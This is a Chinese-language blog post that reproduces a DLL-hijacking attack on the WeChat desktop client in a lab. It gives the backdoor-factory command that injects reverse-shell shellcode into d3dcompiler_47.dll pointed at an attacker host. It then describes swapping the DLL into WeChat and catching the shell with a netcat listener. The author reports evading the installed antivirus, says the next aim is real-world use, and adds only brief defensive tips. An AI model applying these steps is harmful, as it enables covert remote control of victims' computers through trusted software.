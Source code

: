 ```yaml
---
layout: post
title: "利用微信进行 DLL 劫持 && 反弹shell"
subtitle: "利用微信进行 DLL 劫持 && 反弹shell"
date: 2019-06-17
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

## 0x1 前言

​		PS：看到的一篇标题为《看我如何利用微信反弹shell》的文章觉得挺有意思的，就去复现了一波，可能是微信版本的问题，并没有加载他文章中微信下的 dbghelp.dll，而是劫持了d3dcompiler_47.dll 文件，从而反弹shell 。



用户机器：

​		Windos 7 企业版

​		IP 192.168.1.101

​		微信版本：2.6.8.51



攻击机：

​		MacBook Pro 本地

​		IP 192.168.1.100		



##### 需要的工具：

​		 [劫持工具(backdoor-factory)](https://github.com/secretsquirrel/the-backdoor-factory)

​		 [增强型任务管理器 (ProcessExplorer)](https://github.com/ppbibo/ppbibo.github.io/tree/master/upload/ProcessExplorer.zip)

​		 [微信 2.6.8.51](https://github.com/ppbibo/ppbibo.github.io/tree/master/upload/微信-2.6.8.51.zip)

​		![version](/static/img/version.png)

## 0x2 查看被调用的dll文件

安装好微信打开 ProcessExplorer 查看微信调用的所有文件，如下：

![dll_new](/static/img/dll_new.png)

![dll_dir](/static/img/dll_dir.png)



## 0x3 制作劫持的dll文件

利用 backdoor-factory 制作反弹shell 的 dll 文件，向原有的dll 中插入一段shellcode

执行命令：

```bash
python backdoor.py -f d3dcompiler_47.dll -s reverse_shell_tcp_inline -P 6666 -H 192.168.1.100
```

![backdoor](/static/img/backdoor.png)

生成的文件在当前目录的backdoored 下面

![backdoored](/static/img/backdoored.png)



将 backdoored 下面的 d3dcompiler_47.dll 替换掉 WeChat 下面原有的 d3dcompiler_47.dll 文件

![qqqq](/static/img/qqqq.png)



这样微信在启动的时候就可以调用我们插入shellcode 的dll了

## 0x4 利用

攻击机使用NC 监听 6666 端口

```bash
nc -lvv 6666    
```

Windows 7 运行微信

![fantanshell_ok](/static/img/fantanshell_ok.png)

可以看到 微信在运行时多了两个cmd 进程，成功反弹shell到攻击机。



## 0x5 总结

​		这种dll 攻击感觉还是蛮好玩的，因为我在windows 7 下是有火绒杀软的，也就是免杀，接下来就是想怎么将这种攻击运用到实际攻击场景中。



##### 防御方法：

软件要通过官方渠道下载安装

定时检查机器是否存在可疑的dll文件

查看机器是否开启了可疑地端口

![netstat](/static/img/netstat.png)



参考：https://mp.weixin.qq.com/s/6h2eYnbVnjmeGACUjgx1nw

参考：https://www.freebuf.com/articles/78807.html